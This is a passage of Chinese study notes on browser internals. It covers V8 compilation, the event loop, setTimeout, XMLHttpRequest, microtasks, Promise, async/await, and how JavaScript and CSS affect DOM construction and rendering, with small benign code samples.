编译器或者解释器理解不了高级语言，编译过程中，它们都会生成一个 AST。这和渲染引擎将 HTML 格式文件转换为计算机可以理解的 DOM 树的情况类似。

你也可以把 AST 看成代码的结构化的表示，编译器或者解释器后续的工作都需要依赖于 AST，而不是源代码。

Babel 是一个被广泛使用的代码转码器，可以将 ES6 代码转为 ES5 代码，Babel 的工作原理就是先将 ES6 源码转换为 AST，然后再将 ES6 语法的 AST 转换为 ES5 语法的 AST，最后利用 ES5 的 AST 生成 JavaScript 源代码。

除了 Babel 外，还有 ESLint 也使用 AST。ESLint 是一个用来检查 JavaScript 编写规范的插件，其检测流程也是需要将源码转换为 AST，然后再利用 AST 来检查代码规范化的问题。

生成 AST 需要经过两个阶段，**先分词，再解析**。

第一阶段是分词（tokenize），又称为词法分析，其作用是将一行行的源码拆解成一个个 token。所谓token，指的是语法上不可能再分的、最小的单个字符或字符串。

第二阶段是解析（parse），又称为语法分析，其作用是将上一步生成的 token 数据，根据语法规则转为 AST。如果源码符合语法规则，这一步就会顺利完成。但如果源码存在语法错误，这一步就会终止，并抛出一个“语法错误”。

有了 AST 后，那接下来 V8 就会生成该段代码的执行上下文。

2. 生成字节码

有了 AST 和执行上下文后，解释器 Ignition 会根据 AST 生成字节码，并解释执行字节码。

其实一开始 V8 并没有字节码，而是直接将 AST 转换为机器码，虽然高效，但非常占内存，

引入了字节码，就有弹性空间了，可以在内存和执行速度之间做调节。

字节码就是介于 AST 和机器码之间的一种代码。但是与特定类型的机器码无关，字节码需要通过解释器将其转换为机器码后才能执行。

<br/>

<br/>

3. 执行代码

生成字节码之后，接下来就要进入执行阶段了。

解释器 Ignition 会逐条解释执行代码，在执行字节码的过程中，如果发现有热点代码（HotSpot），比如一段代码被重复执行多次，这种就称为热点代码，那么后台的编译器 TurboFan 就会把该段热点的字节码编译为高效的机器码，然后当再次执行这段被优化的代码时，只需要执行编译后的机器码就可以了，这样就大大提升了代码的执行效率。

基于这个特点， V8 执行时间越长，执行效率越高。是因为更多的代码成为热点代码之后，转为了机器码来执行。

字节码配合解释器和编译器是最近一段时间很火的技术，我们把这种技术称为即时编译（JIT）

最后我们延伸说明了下优化 JavaScript 性能的一些策略。

得益于 V8 团队对解释器和编译器的不断改进和优化，你越来越不需要微优化策略了，相反，**对于优化 JavaScript 执行效率，你应该将优化的中心聚焦在单次脚本的执行时间和脚本的网络下载上**，主要关注以下三点内容：

- 提升单次脚本的执行速度，避免 JavaScript 的长任务霸占主线程，这样可以使得页面快速响应交互；
- 避免大的内联脚本，因为在解析 HTML 的过程中，解析和编译也会占用主线程；
- 减少 JavaScript 文件的容量，因为更小的文件会提升下载速度，并且占用更低的内存。


<br/>

## 15丨消息队列和事件循环：页面是怎么“活”起来的？

每个渲染进程都有一个主线程，并且主线程非常繁忙，既要处理 DOM，又要计算样式，还要处理布局，同时还需要处理 JavaScript 任务以及各种输入事件。

要让这么多不同类型的任务在主线程中有条不紊地执行，这就需要一个系统来统筹调度这些任务，这个统筹调度系统就是我们今天要讲的**消息队列和事件循环系统**。

如果有一些确定好的任务，可以使用一个单线程来按照顺序处理这些任务，这是第一版线程模型。

要在线程执行过程中接收并处理新的任务，就需要引入循环语句和事件系统，这是第二版线程模型。

如果要接收其他线程发送过来的任务，就需要引入消息队列，这是第三版线程模型。

如果其他进程想要发送任务给页面主线程，那么先通过 IPC 把任务发送给渲染进程的 IO 线程，IO 线程再把任务发送给页面主线程。

消息队列是“先进先出”的属性，也就是说放入队列中的任务，需要等待前面的任务被执行完，才会被执行。鉴于这个属性，就有如下两个问题需要解决。

1. 第一个问题是如何处理高优先级的任务。比如监控 DOM 节点变化
2. 第二个是如何解决单个任务执行时长过久的问题。

关于第一个问题，因为消息队列机制并不是太灵活，为了适应效率和实时性，引入了微任务。

至于第二个问题，JS 的回调功能正是解决单个任务执行时间过久的问题，但这又导致了回调地狱，ES6 新增的 promise 解决了这个问题。

记住这两个问题，后面章节都围绕它们展开。

<br/>

## 16丨WebAPI：setTimeout是如何实现的？

我们知道了浏览器页面是由消息队列和事件循环系统来驱动的。接下来，我们通过setTimeout和XMLHttpRequest这两个 WebAPI 来介绍事件循环的应用。

首先，为了支持定时器的实现，浏览器增加了延时队列。

其次，由于消息队列排队和一些系统级别的限制，通过 setTimeout 设置的回调任务并非总是可以实时地被执行，这样就不能满足一些实时性要求较高的需求了。

最后，在定时器中使用过程中，还存在一些陷阱：

1. 如果当前任务执行时间过久，会影延迟到期定时器任务的执行
2. 如果 setTimeout 存在嵌套调用，那么系统会设置最短时间间隔为 4 毫秒
3. 未激活的页面，setTimeout 执行最小间隔是 1000 毫秒
4. 延时执行时间有最大值 2147483647 毫秒（大约 24.8 天），大于这个值，就会溢出，这导致定时器会被立即执行。
5. 使用 setTimeout 设置的回调函数中的 this 不符合直觉

通过分析和讲解，你会发现函数 setTimeout 在时效性上面有很多先天的不足，所以对于一些时间精度要求比较高的需求，应该有针对性地采取一些其他的方案。

比如你要使用 JavaScript 来实现动画效果，函数 requestAnimationFrame 就是个很好的选择。

<br/>

## 17丨WebAPI：XMLHttpRequest是怎么实现的？

对比上一篇文章，setTimeout 是直接将延迟任务添加到延迟队列中，而 XMLHttpRequest 发起请求，是由浏览器的其他进程或者线程去执行，然后再将执行结果利用 IPC 的方式通知渲染进程，之后渲染进程再将对应的消息添加到消息队列中。

如果你搞懂了 setTimeout 和 XMLHttpRequest 的工作机制后，再来理解其他 WebAPI 就会轻松很多了，因为大部分 WebAPI 的工作逻辑都是类似的。

此外，学习 XMLHttpRequest 还将回调类型、循环系统、网络请求和安全问题“串联”起来了。

在深入讲解 XMLHttpRequest 之前，我们得先介绍下同步回调和异步回调这两个概念，这会帮助你更加深刻地理解 WebAPI 是怎么工作的。

回调函数是在主函数返回之前执行的，我们把这个回调过程称为同步回调。

相对的，我们称之为异步回调。，比如：

```js
let callback = function(){
    console.log('i am do homework')
}
function doWork(cb) {
    console.log('start do work')
    setTimeout(cb,1000)
    console.log('end do work')
}
doWork(callback)
```

站在消息循环的视角来看看同步回调和异步回调的区别。

我们已经知道浏览器页面是通过事件循环机制来驱动的，每个渲染进程都有一个消息队列，页面主线程按照顺序来执行消息队列中的事件，如执行 JavaScript 事件、解析 DOM 事件、计算布局事件、用户输入事件等等，如果页面有新的事件产生，那新的事件将会追加到事件队列的尾部。

所以可以说是消息队列和主线程循环机制保证了页面有条不紊地运行。

这里还需要补充一点，那就是当循环系统在执行一个任务的时候，都要为这个任务维护一个系统调用栈。

每个任务在执行过程中都有自己的调用栈，那么同步回调就是在当前主函数的上下文中执行回调函数，这个没有太多可讲的。

下面我们主要来看看异步回调过程，异步回调是指回调函数在主函数之外执行，一般有两种方式：

- 第一种是把异步函数做成一个任务，添加到信息队列尾部；
- 第二种是把异步函数添加到微任务队列中，这样就可以在当前任务的末尾处执行微任务了。

理解了什么是同步回调和异步回调，接下来我们就来分析 XMLHttpRequest 背后的实现机制，具体工作过程你可以参考下图：

<br/>

<br/>

这是 XMLHttpRequest 的总执行流程图，下面我们就来分析从发起请求到接收数据的完整流程。

我们先从 XMLHttpRequest 的用法开始，首先看下面这样一段请求代码：

```js
function GetWebData(URL){
  /**
   * 1: 新建 XMLHttpRequest 请求对象
   */
  let xhr = new XMLHttpRequest()

  /**
   * 2: 注册相关事件回调处理函数
   */
  xhr.onreadystatechange = function () {
      switch(xhr.readyState){
        case 0: // 请求未初始化
          console.log(" 请求未初始化 ")
          break;
        case 1://OPENED
          console.log("OPENED")
          break;
        case 2://HEADERS_RECEIVED
          console.log("HEADERS_RECEIVED")
          break;
        case 3://LOADING
          console.log("LOADING")
          break;
        case 4://DONE
          if(this.status == 200||this.status == 304){
              console.log(this.responseText);
              }
          console.log("DONE")
          break;
      }
  }

  xhr.ontimeout = function(e) { console.log('ontimeout') }
  xhr.onerror = function(e) { console.log('onerror') }

  /**
   * 3: 打开请求
   */
  xhr.open('Get', URL, true);// 创建一个 Get 请求, 采用异步


  /**
   * 4: 配置参数
   */
  xhr.timeout = 3000 // 设置 xhr 请求的超时时间
  xhr.responseType = "text" // 设置响应返回的数据格式
  xhr.setRequestHeader("X_TEST","time.geekbang")

  /**
   * 5: 发送请求
   */
  xhr.send();
}
```

现在我们可以分析下这段代码是怎么执行的。

1. 第一步：创建 XMLHttpRequest 对象。
2. 第二步：为 xhr 对象注册回调函数。比如 ontimeout 、 onerror 、 onreadystatechange
3. 第三步：配置基础的请求信息。比如 `xhr.responseType = "text"` 等
4. 第四步：发起请求。渲染进程会将请求发送给网络进程，然后网络进程负责资源的下载，等网络进程接收到数据之后，就会利用 IPC 来通知渲染进程；渲染进程接收到消息之后，会将 xhr 的回调函数封装成任务并添加到消息队列中，等主线程循环系统执行到该任务的时候，就会根据相关的状态来调用对应的回调函数。

上述过程看似简单，但由于浏览器很多安全策略的限制，所以会导致你在使用过程中踩到非常多的“坑”。

1. 跨域问题
2. HTTPS 混合内容的问题。比如 HTTPS 页面，使用 XMLHttpRequest 请求 HTTP 内容时，会报错


<br/>

## 18丨宏任务和微任务：不是所有任务都是一个待遇

前面介绍了消息队列，并结合消息队列介绍了两种典型的 WebAPI——setTimeout和XMLHttpRequest，通过这两个 WebAPI 我们搞清楚了浏览器的消息循环系统是怎么工作的。

不过随着浏览器的应用领域越来越广泛，消息队列中这种粗时间颗粒度的任务已经不能胜任部分领域的需求，所以又出现了一种新的技术——微任务。

微任务可以在实时性和效率之间做一个有效的权衡。

从目前的情况来看，微任务已经被广泛地应用，基于微任务的技术有 MutationObserver、Promise 以及以 Promise 为基础开发出来的很多其他的技术。

我们先了解微任务和宏任务这二者到底有什么区别

页面中的大部分任务都是在主线程上执行的，这些任务包括了：

- 渲染事件（如解析 DOM、计算布局、绘制）；
- 用户交互事件（如鼠标点击、滚动页面、放大缩小等）；
- JavaScript 脚本执行事件；
- 网络请求完成、文件读写完成事件。

为了协调这些任务有条不紊地在主线程上执行，页面进程引入了消息队列和事件循环机制，渲染进程内部会维护多个消息队列，比如延迟执行队列和普通的消息队列。

然后主线程采用一个 for 循环，不断地从这些任务队列中取出任务并执行任务。

我们把这些消息队列中的任务称为宏任务。

宏任务的时间粒度比较大，执行的时间间隔是不能精确控制的，对一些高实时性的需求就不太符合了，比如监听 DOM 变化。


在上一篇文章中，我们介绍过异步回调的概念，其主要有两种方式。

第一种是把异步回调函数封装成一个宏任务，添加到消息队列尾部，当循环系统执行到该任务的时候执行回调函数。这种比较好理解，我们前面介绍的 setTimeout 和 XMLHttpRequest 的回调函数都是通过这种方式来实现的。

第二种方式的执行时机是在主函数执行结束之后、当前宏任务结束之前执行回调函数，这通常都是以微任务形式体现的。

那这里说的微任务到底是什么呢？

微任务就是一个需要异步执行的函数，执行时机是在主函数执行结束之后、当前宏任务结束之前。

也就是说，每个宏任务都关联了一个微任务队列。

那么接下来，我们就需要分析两个重要的时间点——微任务产生的时机和执行微任务队列的时机。

我们先来看看微任务是怎么产生的？在现代浏览器里面，产生微任务有两种方式。

第一种方式是使用 MutationObserver 监控某个 DOM 节点，然后再通过 JavaScript 来修改这个节点，或者为这个节点添加、删除部分子节点，当 DOM 节点发生变化时，就会产生 DOM 变化记录的微任务。

第二种方式是使用 Promise，当调用 Promise.resolve() 或者 Promise.reject() 的时候，也会产生微任务。

通过 DOM 节点变化产生的微任务或者使用 Promise 产生的微任务都会被 JavaScript 引擎按照顺序保存到微任务队列中。

好了，现在微任务队列中有了微任务了，那接下来就要看看微任务队列是何时被执行的。

通常情况下，在当前宏任务中的 JavaScript 快执行完成时，也就在 JavaScript 引擎准备退出全局执行上下文并清空调用栈的时候，JavaScript 引擎会检查全局执行上下文中的微任务队列，然后按照顺序执行队列中的微任务。WHATWG 把执行微任务的时间点称为检查点。当然除了在退出全局执行上下文式这个检查点之外，还有其他的检查点，不过不是太重要，这里就不做介绍了。

如果在执行微任务的过程中，产生了新的微任务，同样会将该微任务添加到微任务队列中，V8 引擎一直循环执行微任务队列中的任务，直到队列为空才算执行结束。也就是说在执行微任务过程中产生的新的微任务并不会推迟到下个宏任务中执行，而是在当前的宏任务中继续执行。

为了直观地理解什么是微任务，你可以参考下面我画的示意图（由于内容比较多，我将其分为了两张）：

<br/>

<br/>
<br/>

<br/>

该示意图是在执行一个 ParseHTML 的宏任务，在执行过程中，遇到了 JavaScript 脚本，那么就暂停解析流程，进入到 JavaScript 的执行环境。从图中可以看到，全局上下文中包含了微任务列表。

在 JavaScript 脚本的后续执行过程中，分别通过 Promise 和 removeChild 创建了两个微任务，并被添加到微任务列表中。接着 JavaScript 执行结束，准备退出全局执行上下文，这时候就到了检查点了，JavaScript 引擎会检查微任务列表，发现微任务列表中有微任务，那么接下来，依次执行这两个微任务。等微任务队列清空之后，就退出全局执行上下文。

以上就是微任务的工作流程，从上面分析我们可以得出如下几个结论：

- 微任务和宏任务是绑定的，每个宏任务在执行时，会创建自己的微任务队列。
- 微任务的执行时长会影响到当前宏任务的时长。比如一个宏任务在执行过程中，产生了 100 个微任务，执行每个微任务的时间是 10 毫秒，那么执行这 100 个微任务的时间就是 1000 毫秒，也可以说这 100 个微任务让宏任务的执行时间延长了 1000 毫秒。所以你在写代码的时候一定要注意控制微任务的执行时长。
- 在一个宏任务中，分别创建一个用于回调的宏任务和微任务，无论什么情况下，微任务都早于宏任务执行。

综上，我们可以得出两点结论：

- 通过异步操作解决了同步操作的性能问题；
- 通过微任务解决了实时性的问题。


<br/>

## 19丨Promise：使用Promise，告别回调函数

如果你想要学习一门新技术，最好的方式是先了解这门技术是如何诞生的，以及它所解决的问题是什么。了解了这些后，你才能抓住这门技术的本质。所以本文我们就来重点聊聊 JavaScript 引入 Promise 的动机，以及解决问题的几个核心关键点。

要谈动机，我们一般都是先从问题切入，那么 Promise 到底解决了什么问题呢？在正式开始介绍之前，我想有必要明确下，**Promise 解决的是异步编码风格的问题**，而不是一些其他的问题，所以接下来我们聊的话题都是围绕编码风格展开的。

异步编程的问题，代码逻辑不连续。

我们学习了事件循环系统，知道页面中任务都是执行在主线程之上的，如果在主线程执行一项耗时的任务，会严重影响性能，所以这些任务都会放到页面主线程之外的进程或者线程中去执行，这样就避免了耗时任务“霸占”页面主线程的情况。

你可以结合下图来看看这个处理过程：

<br/>

<br/>

上图展示的是一个标准的异步编程模型，页面主线程发起了一个耗时的任务，并将任务交给另外一个进程去处理，这时页面主线程会继续执行消息队列中的任务。等该进程处理完这个任务后，会将该任务添加到渲染进程的消息队列中，并排队等待循环系统的处理。排队结束之后，循环系统会取出消息队列中的任务进行处理，并触发相关的回调操作。

这就是页面编程的一大特点：**异步回调**。

Web 页面的单线程架构决定了异步回调，而异步回调影响到了我们的编码方式，具体表现就是回调函数非常多，这么多的回调会导致代码的逻辑不连贯、不线性，非常不符合人的直觉

为了解决这种情况，我们可以通过封装异步代码，让处理流程变得线性，只关注输入内容和输出内容。但嵌套了太多的回调函数就很容易陷入了回调地狱。

之所以会陷入回调地域，归结其原因有两点：

- 第一是嵌套调用，下面的任务依赖上个任务的请求结果，并在上个任务的回调函数内部执行新的业务逻辑，这样当嵌套层次多了之后，代码的可读性就变得非常差了。
- 第二是任务的不确定性，执行每个任务都有两种可能的结果（成功或者失败），所以体现在代码中就需要对每个任务的执行结果做两次判断，这种对每个任务都要进行一次额外的错误处理的方式，明显增加了代码的混乱程度。

原因分析出来后，那么问题的解决思路就很清晰了：

- 第一是消灭嵌套调用；
- 第二是合并多个任务的错误处理。

Promise 已经帮助我们解决了这两个问题。那么接下来我们就来看看 Promise 是怎么消灭嵌套调用和合并多个任务的错误处理的。

**Promise 主要通过下面两步解决嵌套回调问题的**。

首先，Promise 实现了回调函数的延时绑定。回调函数的延时绑定在代码上体现就是先创建 Promise 对象 x1，通过 Promise 的构造函数 executor 来执行业务逻辑；创建好 Promise 对象 x1 之后，再使用 x1.then 来设置回调函数。

```js
// 创建 Promise 对象 x1，并在 executor 函数中执行业务逻辑
function executor(resolve, reject){
    resolve(100)
}
let x1 = new Promise(executor)


//x1 延迟绑定回调函数 onResolve
function onResolve(value){
    console.log(value)
}
x1.then(onResolve)
```

其次，需要将回调函数 onResolve 的返回值穿透到最外层，就可以实现串行调用。

<br/>

<br/>

**现在我们知道了 Promise 通过回调函数延迟绑定和回调函数返回值穿透的技术，解决了循环嵌套**。

接下来我们再来看看 Promise 是怎么处理异常的

Promise 对象的错误具有“冒泡”性质，会一直向后传递，直到被 onReject 函数处理或 catch 语句捕获为止。具备了这样“冒泡”的特性后，就不需要在每个 Promise 对象中单独捕获异常了。

最后，我们谈谈 Promise 和微任务的关系到底体现哪里呢？

Promise 的构造函数会调用 Promise 的参数 executor 函数。然后在 executor 中执行了 resolve，resolve 函数也是在 V8 内部实现的，那么 resolve 函数到底做了什么呢？我们知道，执行 resolve 函数，会触发 demo.then 设置的回调函数 onResolve，所以可以推测，resolve 函数内部调用了通过 demo.then 设置的 onResolve 函数。

不过这里需要注意一下，由于 Promise 采用了回调函数延迟绑定技术，所以在执行 resolve 函数的时候，回调函数还没有绑定，那么只能推迟回调函数的执行。

要让 resolve 中的 onResolve_ 函数延后执行，可以在 resolve 函数里面加上一个定时器，让其延时执行 onResolve_ 函数

不过使用定时器的效率并不是太高，好在我们有微任务，所以 Promise 又把这个定时器改造成了微任务了，这样既可以让 onResolve_ 延时被调用，又提升了代码的执行效率。这就是 Promise 中使用微任务的原由了。

以下是示例代码：

```js
function Bromise(executor) {
  var onResolve_ = null
  var onReject_ = null
    // 模拟实现 resolve 和 then，暂不支持 rejcet
  this.then = function (onResolve, onReject) {
      onResolve_ = onResolve
  };
  function resolve(value) {
        //setTimeout(()=>{
          onResolve_(value)
          // },0)
  }
  executor(resolve, null);
}
```


<br/>

## 20丨async-await：使用同步的方式去写异步代码

Promise 的编程模型依然充斥着大量的 then 方法，虽然解决了回调地狱的问题，但是在语义方面依然存在缺陷，代码中充斥着大量的 then 函数，这就是 async/await 出现的原因。

使用 async/await 可以实现用同步代码的风格来编写异步代码，这是因为 async/await 的基础技术使用了生成器和 Promise，生成器是协程的实现，利用生成器能实现生成器函数的暂停和恢复。

我们先来看看什么是生成器函数？

生成器函数是一个带星号函数，而且是可以暂停执行和恢复执行的。

要搞懂函数为何能暂停和恢复，那你首先要了解协程的概念。协程是一种比线程更加轻量级的存在。

你可以把协程看成是跑在线程上的任务，一个线程上可以存在多个协程，但是在线程上同时只能执行一个协程，比如当前执行的是 A 协程，要启动 B 协程，那么 A 协程就需要将主线程的控制权交给 B 协程，这就体现在 A 协程暂停执行，B 协程恢复执行；同样，也可以从 B 协程中启动 A 协程。通常，如果从 A 协程启动 B 协程，我们就把 A 协程称为 B 协程的父协程。

最重要的是，协程不是被操作系统内核所管理，而完全是由程序所控制（也就是在用户态执行）。这样带来的好处就是性能得到了很大的提升，不会像线程切换那样消耗资源。

虽然生成器已经能很好地满足我们的需求了，但执行生成器的代码还是有些麻烦，所以 ES7 中引入了 async/await，这种方式能够彻底告别执行器和生成器，实现更加直观简洁的代码。

其实 async/await 技术背后的秘密就是 **Promise 和生成器应用，往低层说就是微任务和协程应用**。要搞清楚 async 和 await 的工作原理，我们就得对 async 和 await 分开分析。

async 是一个通过异步执行并隐式返回 Promise 作为结果的函数。

我们先来看看是如何隐式返回 Promise 的

你可以参考下面的代码：

```js
async function foo() {
    return 2
}
console.log(foo())  // Promise {<resolved>: 2}
```

执行这段代码，我们可以看到调用 async 声明的 foo 函数返回了一个 Promise 对象，状态是 resolved

我们再结合文中这段代码来看看 await 到底是什么。

```js
async function foo() {
    console.log(1)
    let a = await 100
    console.log(a)
    console.log(2)
}
console.log(0)
foo()
console.log(3)
```

在详细介绍之前，我们先站在协程的视角来看看这段代码的整体执行流程图：

<br/>

<br/>

结合上图，我们来一起分析下 async/await 的执行流程。

首先，执行console.log(0)这个语句，打印出来 0。

紧接着就是执行 foo 函数，由于 foo 函数是被 async 标记过的，所以当进入该函数的时候，JavaScript 引擎会保存当前的调用栈等信息，然后执行 foo 函数中的console.log(1)语句，并打印出 1。

接下来就执行到 foo 函数中的await 100这个语句了，这里是我们分析的重点，因为在执行await 100这个语句时，JavaScript 引擎在背后为我们默默做了太多的事情，那么下面我们就把这个语句拆开，来看看 JavaScript 到底都做了哪些事情。

当执行到await 100时，会默认创建一个 Promise 对象，代码如下所示：

```js
let promise_ = new Promise((resolve,reject){
  resolve(100)
})
```

然后 JavaScript 引擎会暂停当前协程的执行，将主线程的控制权转交给父协程执行，同时会将 promise_ 对象返回给父协程。

主线程的控制权已经交给父协程了，这时候父协程要做的一件事是调用 promise_.then 来监控 promise 状态的改变。

接下来继续执行父协程的流程，这里我们执行console.log(3)，并打印出来 3。随后父协程将执行结束，在结束之前，会进入微任务的检查点，然后执行微任务队列，微任务队列中有resolve(100)的任务等待执行，执行到这里的时候，会触发 promise_.then 中的回调函数，如下所示：

```js
promise_.then((value)=>{
   // 回调函数被激活后
  // 将主线程控制权交给 foo 协程，并将 vaule 值传给协程
})
```

该回调函数被激活以后，会将主线程的控制权交给 foo 函数的协程，并同时将 value 值传给该协程。

foo 协程激活之后，会把刚才的 value 值赋给了变量 a，然后 foo 协程继续执行后续语句，执行完成之后，将控制权归还给父协程。

以上就是 await/async 的执行流程。正是因为 async 和 await 在背后为我们做了大量的工作，所以我们才能用同步的方式写出异步代码来。

综上，V8 引擎还为 async/await 做了大量的语法层面包装，所以了解隐藏在背后的代码有助于加深你对 async/await 的理解。

<br>

async/await 无疑是异步编程领域非常大的一个革新，也是未来的一个主流的编程风格。其实，除了 JavaScript，Python、Dart、C# 等语言也都引入了 async/await，使用它不仅能让代码更加整洁美观，而且还能确保该函数始终都能返回 Promise。

<br>

# 浏览器中的页面

<br/>

## 21丨Chrome开发者工具：利用网络面板做性能分析

记忆性内容，参考原文

<br/>

## 22丨DOM树：JavaScript是如何影响DOM树构建的？

我们先沿着网络数据流路径来介绍 DOM 树是怎么生成的

在渲染引擎内部，有一个叫HTML 解析器（HTMLParser）的模块，它的职责就是负责将 HTML 字节流转换为 DOM 结构。

具体流程如下：

网络进程接收到响应头之后，会根据响应头中的 content-type 字段来判断文件的类型，比如 content-type 的值是“text/html”，那么浏览器就会判断这是一个 HTML 类型的文件，然后为该请求选择或者创建一个渲染进程。

渲染进程准备好之后，网络进程和渲染进程之间会建立一个共享数据的管道，网络进程接收到数据后就往这个管道里面放，而渲染进程则从管道的另外一端不断地读取数据，并同时将读取的数据“喂”给 HTML 解析器。

你可以把这个管道想象成一个“水管”，网络进程接收到的字节流像水一样倒进这个“水管”，而“水管”的另外一端是渲染进程的 HTML 解析器，它会动态接收字节流，并将其解析为 DOM。

字节流转换为 DOM 需要三个阶段。

1. 第一个阶段，通过分词器将字节流转换为 Token。 Token分为 Tag Token 和文本 Token。

<br/>

<br/>

2. 至于后续的第二个和第三个阶段是同步进行的，需要将 Token 解析为 DOM 节点，并将 DOM 节点添加到 DOM 树中。

HTML 解析器维护了一个Token 栈结构，通过分词器产生的新 Token 就这样不停地压栈和出栈，将Token 解析为 DOM 节点

<br>

通过上面的介绍，相信你已经清楚 DOM 是怎么生成的了。不过在实际生产环境中，HTML 源文件中既包含 CSS 和 JavaScript，又包含图片、音频、视频等文件，所以处理过程远比上面这个示范 Demo 复杂。不过理解了这个简单的 Demo 生成过程，我们就可以往下分析更加复杂的场景了。

接下来，我们基于 DOM 树的解析流程介绍两块内容：第一个是在解析过程中遇到 JavaScript 脚本，DOM 解析器是如何处理的？第二个是 DOM 解析器是如何处理跨站点资源的？


**第一个是在解析过程中遇到 JavaScript 脚本，DOM 解析器是如何处理的？**

执行到 JavaScript 标签时，暂停整个 DOM 的解析，执行 JavaScript 代码

如果是内嵌 JavaScript 脚本，需要先下载这段 JavaScript 代码。

所以，JavaScript 文件的下载与执行过程会阻塞 DOM 解析，我们要了解如何优化。

这里的优化，分为两种，一种是浏览器帮我们做的优化，一种是我们能采取的优化手段。

Chrome 浏览器做了很多优化，其中一个主要的优化是预解析操作。当渲染引擎收到字节流之后，会开启一个预解析线程，用来分析 HTML 文件中包含的 JavaScript、CSS 等相关文件，解析到相关文件之后，预解析线程会提前下载这些文件。

我们可以使用 CDN 来加速 JavaScript 文件的加载，压缩 JavaScript 文件的体积。另外，如果 JavaScript 文件中没有操作 DOM 相关代码，就可以将该 JavaScript 脚本设置为异步加载，通过 async 或 defer 来标记代码

async 和 defer 虽然都是异步的，不过还有一些差异，使用 async 标志的脚本文件一旦加载完成，会立即执行；而使用了 defer 标记的脚本文件，需要在 DOMContentLoaded 事件之前执行。


**第二个是 DOM 解析器是如何处理跨站点资源的？**

当JavaScript 代码出现了类似 `div1.style.color = ‘red'` 的语句，它是用来操纵 CSSOM 的，所以在执行 JavaScript 之前，需要先解析 JavaScript 语句之上所有的 CSS 样式。

所以如果代码里引用了外部的 CSS 文件，那么在执行 JavaScript 之前，还需要等待外部的 CSS 文件下载完成，并解析生成 CSSOM 对象之后，才能执行 JavaScript 脚本。

而 JavaScript 引擎在解析 JavaScript 之前，是不知道 JavaScript 是否操纵了 CSSOM 的，所以渲染引擎在遇到 JavaScript 脚本时，不管该脚本是否操纵了 CSSOM，都会执行 CSS 文件下载，解析操作，再执行 JavaScript 脚本。

所以说 JavaScript 脚本是依赖样式表的，这又多了一个阻塞过程。至于如何优化，我们在下篇文章中再来深入探讨。

通过上面的分析，我们知道了 JavaScript 会阻塞 DOM 生成，而样式文件又会阻塞 JavaScript 的执行，所以在实际的工程中需要重点关注 JavaScript 文件和样式表文件，使用不当会影响到页面性能的。


<br/>

## 23丨渲染流水线：CSS如何影响首次加载时的白屏时间？

我们先站在渲染流水线的视角来介绍 CSS 是如何工作的。

先从最简单的渲染流程开始

```css
//theme.css
div{
    color : coral;
    background-color:black
}
```
```html
<html>
<head>
    <link href="theme.css" rel="stylesheet">
</head>
<body>
    <div>geekbang com</div>
</body>
</html>
```

这两段代码分别由 CSS 文件和 HTML 文件构成，我们来分析下打开这段 HTML 文件时的渲染流水线，你可以先参考下面这张渲染流水线示意图：

<br/>

<br/>

首先是发起主页面的请求，这个发起请求方可能是渲染进程，也有可能是浏览器进程，发起的请求被送到网络进程中去执行。

网络进程接收到返回的 HTML 数据之后，将其发送给渲染进程，渲染进程会解析 HTML 数据并构建 DOM。

这里你需要特别注意下，请求 HTML 数据和构建 DOM 中间有一段空闲时间，这个空闲时间有可能成为页面渲染的瓶颈。

上一篇文章中我们提到过，当渲染进程接收 HTML 文件字节流时，会先开启一个预解析线程，如果遇到 JavaScript 文件或者 CSS 文件，那么预解析线程会提前下载这些数据。

对于上面的代码，预解析线程会解析出来一个外部的 theme.css 文件，并发起 theme.css 的下载。

这里也有一个空闲时间需要你注意一下，就是在 DOM 构建结束之后、theme.css 文件还未下载完成的这段时间内，渲染流水线无事可做，因为下一步是合成布局树，而合成布局树需要 CSSOM 和 DOM，所以这里需要等待 CSS 加载结束并解析成 CSSOM。

之所以需要 CSSOM ，是因为和 HTML 一样，渲染引擎也是无法直接理解 CSS 文件内容的，所以需要将其解析成渲染引擎能够理解的结构，这个结构就是 CSSOM。

和 DOM 一样，CSSOM 也具有两个作用，**第一个是提供给 JavaScript 操作样式表的能力，第二个是为布局树的合成提供基础的样式信息**。

这个 CSSOM 体现在 DOM 中就是document.styleSheets。

等 DOM 和 CSSOM 都构建好之后，渲染引擎就会构造布局树。

布局树的结构基本上就是复制 DOM 树的结构，不同之处在于 DOM 树中那些不需要显示的元素会被过滤掉，如 display:none 属性的元素、head 标签、script 标签等。

复制好基本的布局树结构之后，渲染引擎会为对应的 DOM 元素选择对应的样式信息，这个过程就是样式计算。

样式计算完成之后，渲染引擎还需要计算布局树中每个元素对应的几何位置，这个过程就是计算布局。

通过样式计算和计算布局就完成了最终布局树的构建。

再之后，就该进行后续的绘制操作了。

这就是在渲染过程中涉及到 CSS 的一些主要流程。

了解了这些之后，我们再来看看稍微复杂一点的场景，还是看下面这段 HTML 代码：

```css
//theme.css
div{
    color : coral;
    background-color:black
}
```

```html
<html>
<head>
    <link href="theme.css" rel="stylesheet">
</head>
<body>
    <div>geekbang com</div>
    <script>
        console.log('time.geekbang.org')
    </script>
    <div>geekbang com</div>
</body>
</html>
```

有了 JavaScript，渲染流水线就有点不一样了，可以参考下面这张渲染流水线图：

<br/>

<br/>

在解析 DOM 的过程中，如果遇到了 JavaScript 脚本，那么需要先暂停 DOM 解析去执行 JavaScript，因为 JavaScript 有可能会修改当前状态下的 DOM。

不过在执行 JavaScript 脚本之前，如果页面中包含了外部 CSS 文件的引用，或者通过 style 标签内置了 CSS 内容，那么渲染引擎还需要将这些内容转换为 CSSOM，因为 JavaScript 有修改 CSSOM 的能力，所以在执行 JavaScript 之前，还需要依赖 CSSOM。也就是说 CSS 在部分情况下也会阻塞 DOM 的生成。

我们再来看看更加复杂一点的情况，如果在 body 中被包含的是 JavaScript 外部引用文件，Demo 代码如下所示：

```css
//theme.css
div{
    color : coral;
    background-color:black
}
```

```js
//foo.js
console.log('time.geekbang.org')
```

```html
<html>
<head>
    <link href="theme.css" rel="stylesheet">
</head>
<body>
    <div>geekbang com</div>
    <script src='foo.js'></script>
    <div>geekbang com</div>
</body>
</html>
```

HTML 文件中包含了 CSS 的外部引用和 JavaScript 外部文件，那它们的渲染流水线是怎样的呢？可参考下图：

<br/>

<br/>

从图中可以看出来，在接收到 HTML 数据之后的预解析过程中，HTML 预解析器识别出来了有 CSS 文件和 JavaScript 文件需要下载，然后就同时发起这两个文件的下载请求，需要注意的是，这两个文件的下载过程是重叠的，所以下载时间按照最久的那个文件来算。

